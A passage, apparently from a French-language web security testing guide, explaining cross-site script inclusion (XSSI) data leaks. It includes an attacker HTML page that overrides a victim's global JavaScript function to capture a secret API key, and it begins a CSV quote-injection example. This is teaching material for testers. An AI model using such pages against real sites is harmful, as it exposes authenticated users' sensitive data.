 Dans cet exemple, une victime est authentifiée avec `victim.com`. Un attaquant attire la victime vers "attackingwebsite.com" via l'ingénierie sociale, des e-mails de phishing, etc. Le navigateur de la victime récupère ensuite "api.js", ce qui entraîne la fuite des données sensibles via la variable JavaScript globale et leur affichage à l'aide de "innerHTML".

### 2. Fuite de données sensibles via les paramètres de fonction globaux

Cet exemple est similaire au précédent, sauf que dans ce cas, `attackingwebsite.com` utilise une fonction JavaScript globale pour extraire les données sensibles en écrasant la fonction JavaScript globale de la victime.

Voici le contenu de `https://victim.com/internal/api.js` :

```javascript
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

Le site d'attaque, `attackingwebsite.com`, a un `index.html` avec le code suivant :

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

Il existe d'autres vulnérabilités XSSI qui peuvent entraîner des fuites de données sensibles via des chaînes de prototypes JavaScript ou des appels de fonctions globales. Pour en savoir plus sur ces attaques, consultez [Les dangers inattendus du JavaScript dynamique](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf).

### 3. Fuite de données sensibles via CSV avec vol de devis

Pour divulguer des données, l'attaquant/testeur doit pouvoir injecter du code JavaScript dans les données CSV. L'exemple de code suivant est un extrait du livre blanc [Identifier based XSSI attack](https://www.mbsd.jp/Whitepaper/xssi.pdf) de Takeshi Terada.

```text
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.exemple","03-0000-0001"
2,"foo","bbb@b.exemple","03-0000-0002"
...
98,"bar","yyy@exemple.net","03-0000-0088"
99,"___","zzz@exemple.com","03-0000-0099"
```

